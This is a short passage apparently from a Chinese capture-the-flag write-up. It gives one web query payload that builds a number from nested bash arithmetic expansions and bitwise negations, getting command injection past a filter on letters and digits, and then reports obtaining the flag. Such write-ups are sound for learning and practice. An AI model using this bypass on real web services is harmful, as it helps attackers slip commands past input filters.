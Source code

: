 构建命令

```
?c=$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))
```

得到flag

![image-20240120211520805](照片/image-20240120211520805.png)
